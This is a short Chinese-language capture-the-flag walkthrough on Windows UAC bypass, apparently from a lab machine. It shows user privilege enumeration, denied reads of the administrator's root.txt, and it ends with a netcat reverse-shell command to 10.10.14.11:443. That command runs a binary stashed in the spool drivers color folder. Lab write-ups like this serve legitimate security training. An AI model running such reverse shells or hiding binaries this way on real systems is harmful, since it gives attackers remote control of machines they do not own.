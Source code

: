 # UAC绕过

查看当前用户权限

```
net user batman
```

```
C:\Users\Batman\Documents>net user batman
net user batman
User name                    Batman
Full Name
Comment
User's comment
Country/region code          001 (United States)
Account active               Yes
Account expires              Never

Password last set            2/3/2019 9:25:50 AM
Password expires             Never
Password changeable          2/3/2019 9:25:50 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/8/2019 12:45:38 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

该用户拥有管理员和远程管理员权限，但是读取 root.txt 时无法访问 administrator 的桌面

```
dir c:\Users\administrator\Desktop
type c:\Users\administrator\Desktop\root.txt
```

```
PS C:\Users\Batman\Documents> type \users\administrator\desktop\root.txt
Access is denied
At line:1 char:1
+ type \users\administrator\desktop\root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
Cannot find path 'C:\users\administrator\desktop\root.txt' because it does not exist.
At line:1 char:1
+ type \users\administrator\desktop\root.txt
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\users\administrator\desktop\root.txt:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
```


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 